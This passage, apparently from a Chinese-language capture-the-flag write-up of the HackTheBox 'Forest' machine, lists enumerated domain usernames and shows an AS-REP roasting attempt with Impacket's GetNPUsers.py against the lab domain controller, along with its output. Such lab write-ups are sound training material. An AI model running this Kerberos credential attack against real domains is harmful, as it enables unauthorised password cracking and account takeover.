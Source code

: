 ```
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

使用```GetNPUsers.py```尝试向kerberos请求不需要预认证的票据
```
┌──(root💀kali)-[~/htb/Forest]
└─# python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile /root/htb/Forest/user  -outputfile hashes.asreproast -dc-ip 10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```
